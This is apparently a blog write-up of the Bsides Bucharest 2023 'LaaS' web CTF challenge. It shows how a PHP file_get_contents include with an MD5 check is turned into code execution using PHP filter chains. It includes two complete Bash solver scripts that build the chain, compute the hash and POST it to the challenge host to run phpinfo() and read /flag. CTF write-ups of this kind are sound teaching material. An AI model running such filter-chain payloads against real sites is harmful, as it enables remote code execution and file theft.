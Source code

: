```yaml
---
layout: post
title:  "Writeup for Bsides Bucharest 2023 Web Challenge : LaaS"
tags: ctf web bsides 2023 
---
```


This was a really good web challenge, I liked it a lot.

We are given a link to a webpage, let's see what we have there.
<img src="/assets/images/initial-webpage-laas.png" alt="Initial webpage for the challenge">

At a quick glance, it seems like we are able to read files, but there should definitely be a catch.
Let's inspect the source code for the challenge and try to find the catch.

<img src="/assets/images/source-code-webpage-laas.png" alt="Source code for the challenge">

We can control two variables : 
```php
$_POST['file']
``` 
and 
```php 
$_POST['mac']
```

Let's see what we can do with the __mac__ parameter. It is only used once to check the hash. The equality verification is performed in a safe way. It seems this parameter is only here to make our life harder. We cannot possibly know the MD5 hash of a file on the remote host, especially of the flag file.
The __file__ parameter is way more interesting. The script uses the file_get_contents PHP function in order to read the file contents. Then, if the provided hash matches the calculated hash, the file is included in the response. 
This could be either an LFI or an RFI. Due to the fact that file_get_contents also URLs and PHP filters as valid file content sources, it feels more likely that we have to force the script to include a remote file. 

After a lot of trial and error, PHP filters were looking most promising.
I found a wonderful tool that generates payloads for our exact condition <a href="https://github.com/synacktiv/php_filter_chain_generator">here</a>.
*Quickly added to the notes with useful bug bounty tools*

Let's confirm that we can achieve code execution with RFI.
I like to do it by invoking the phpinfo() function. I have never seen an environment in which the phpinfo function is disabled, so it's a safe option. Also, we might discover disabled functions or interesting environment variables, so it's good to always keep an eye on the output of this function.

I put together a Bash script to automate the testing.

```bash
#!/bin/bash

_COMMAND='<?php phpinfo();  ?>'

_file_cmd="python3 php_filter_chain_generator.py --chain '$_COMMAND'"; 
cmd_output=$(bash -c "$_file_cmd" | tail -n 1);
file=`echo $cmd_output | sed 's/ *$//' | sed 's/^ *//'`

echo "<?php" > solver.php
echo "\$encoded = \"$file\";" >> solver.php
echo "\$content = file_get_contents(\$encoded);" >> solver.php
echo "\$f = fopen('data.bin', 'wb');" >> solver.php
echo "fwrite(\$f, \$content);" >> solver.php
echo "fclose(\$f);" >> solver.php
echo "?>" >> solver.php

php solver.php

_hash=$(md5sum data.bin | awk '{print $1}')

curl -s -X POST "https://laas.fly.dev/" -d "mac=$_hash&file=$file" --output output
cat output
```

First of all we craft a filter chain using the wonderful tool written by Synacktiv.
Then, we craft a PHP script that outputs the result obtained from the reading of the filter chain.
Last but not least, we compute the MD5 hash of the binary file containing the PHP code that should be included in the remote webpage and we submit the form.


After running the script, redirecting the output to a local file and opening the local file in a browser, we are greeted with a wonderful result : the well deserved code execution.

<img src="/assets/images/phpinfo-output-laas.png" alt="phpinfo output after sending the filter chain">

The final script looks like this:

```bash
#!/bin/bash

_COMMAND='<?php echo readfile("/flag");  ?>'

_file_cmd="python3 php_filter_chain_generator.py --chain '$_COMMAND'"; 
cmd_output=$(bash -c "$_file_cmd" | tail -n 1);
file=`echo $cmd_output | sed 's/ *$//' | sed 's/^ *//'`

echo "<?php" > solver.php
echo "\$encoded = \"$file\";" >> solver.php
echo "\$content = file_get_contents(\$encoded);" >> solver.php
echo "\$f = fopen('data.bin', 'wb');" >> solver.php
echo "fwrite(\$f, \$content);" >> solver.php
echo "fclose(\$f);" >> solver.php
echo "?>" >> solver.php

php solver.php

_hash=$(md5sum data.bin | awk '{print $1}')

curl -s -X POST "https://laas.fly.dev/" -d "mac=$_hash&file=$file" --output output
cat output
```

Thanks for reading and keep hacking :)
